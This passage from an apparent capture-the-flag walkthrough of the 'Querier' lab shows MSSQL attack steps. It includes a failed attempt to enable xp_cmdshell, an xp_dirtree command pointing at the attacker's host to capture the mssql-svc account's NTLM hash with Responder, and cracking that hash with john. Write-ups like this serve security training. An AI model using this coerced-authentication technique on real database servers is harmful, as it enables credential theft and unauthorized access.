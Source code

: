 Trying to enable ex_cmdshell we find we don't have permissions to:

```
SQL> EXECUTE sp_configure 'show advanced options',1;
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
```

Next thing I always like to try before I begin enumerating the DB is seeing if I can perform NTLM theft using xp_dirtree.

Lets set up a responder listener and execute:

```
EXEC master..xp_dirtree '\\10.10.14.49\testing\'
```

Nice, that worked. We've intercepted a hash for mssql-svc:

![querier_responder.png](../assets/querier_assets/querier_responder.png)

Lets copy this hash into a file called mssql-svc_hash and try cracking it with john:

![querier_john.png](../assets/querier_assets/querier_john.png)
